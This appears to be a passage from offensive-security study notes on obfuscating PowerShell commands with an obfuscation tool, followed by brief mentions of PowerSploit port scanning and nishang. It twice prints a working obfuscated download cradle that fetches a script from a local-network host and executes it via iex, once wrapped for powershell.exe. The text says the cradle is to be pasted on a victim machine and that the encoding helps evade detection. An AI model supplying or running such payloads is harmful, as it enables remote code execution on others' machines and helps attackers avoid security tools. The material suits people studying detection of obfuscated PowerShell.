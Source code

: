 * The "REVERSE" method will first concatenate our PS cmd line and then reverse the entire string.
* We select "option 3" (SELECT\1)

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption><p>2</p></figcaption></figure>

We can copy and paste in victim and it will execute.

> <mark style="color:orange;">& ( $shELLId\[1]+$SHeLlID\[13]+'X')( (('i'+'ex (New-'+'O'+'bj'+'ec'+'t '+'Net.WebCli'+'en'+'t'+').d'+'ownlo'+'a'+'dstr'+'ing('+'oE'+'Ghttp://'+'192.1'+'6'+'8.0.1'+'00:8000/test'+'.'+'ps1oEG)') -REpLaCE'oEG',\[CHAr]34) )</mark>

* Now, lets take a look at "ENCODING" method which provides a bit more obfuscation and is a bit harder to detect. ie, ENCODING\7 (as Special Characters), then we can use the output as above.
* If you want to run in a cmd prompt terminal just enclose the generated result with <""> ie,

> <mark style="color:orange;">powershell.exe -Command "& ( $shELLId\[1]+$SHeLlID\[13]+'X')( (('i'+'ex (New-'+'O'+'bj'+'ec'+'t '+'Net.WebCli'+'en'+'t'+').d'+'ownlo'+'a'+'dstr'+'ing('+'oE'+'Ghttp://'+'192.1'+'6'+'8.0.1'+'00:8000/test'+'.'+'ps1oEG)') -REpLaCE'oEG',\[CHAr]34) )"</mark>

* Use the "RESET" method after every encoding to clear every previous encodings, this way they won't pile up on each other.
* We can also use the "TUTORIAL" cmd if stuck for guidiance.

## Exploitation with Powershell

### Host Scanning and Port Scanning

* PowerSploit (depricated). This is an efficient tool we can use for efficient discovery of hosts on a network "Invoke-Portscan" cmd from the Module.

### Post Exploitation with \[nishang]
